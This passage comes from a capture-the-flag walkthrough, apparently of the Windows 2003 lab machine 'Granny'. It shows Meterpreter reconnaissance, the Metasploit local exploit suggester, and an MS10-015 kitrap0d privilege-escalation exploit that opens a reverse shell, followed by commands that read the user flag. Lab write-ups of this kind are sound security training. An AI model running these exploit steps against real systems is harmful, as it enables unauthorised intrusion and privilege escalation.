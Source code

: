 **Command/Code:**
```bash
getuid
sysinfo
shell
whoami
```

**Output:**
```
Server username: NT AUTHORITY\IUSR
Computer        : GRANNY
OS              : Windows 2003 (Build 3790, Service Pack 2).
Architecture    : x86
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 0
Meterpreter     : x86/windows
```

### Step 5: Privilege Escalation
Check for privilege escalation opportunities.

**Command/Code:**
```bash
background
use post/multi/recon/local_exploit_suggester
set SESSION 1
run
```

### Step 6: MS10-015 Exploitation
Use the MS10-015 exploit for privilege escalation.

**Command/Code:**
```bash
use exploit/windows/local/ms10_015_kitrap0d
set SESSION 1
exploit
```

**Output:**
```
[*] Started reverse TCP handler on 10.10.14.2:4445 
[*] Writing payload file to C:\WINDOWS\Temp\cVQJhV.exe
[*] Sending stage (175174 bytes) to 10.10.10.15
[*] Meterpreter session 2 opened (10.10.14.2:4445 -> 10.10.10.15:32892) at 2024-09-03 10:10:23 +0000
```

### Step 7: Find User Flag
Search for the user flag.

**Command/Code:**
```bash
getuid
dir C:\Documents and Settings
dir "C:\Documents and Settings\lakis\Desktop"
type "C:\Documents and Settings\lakis\Desktop\user.txt"
```
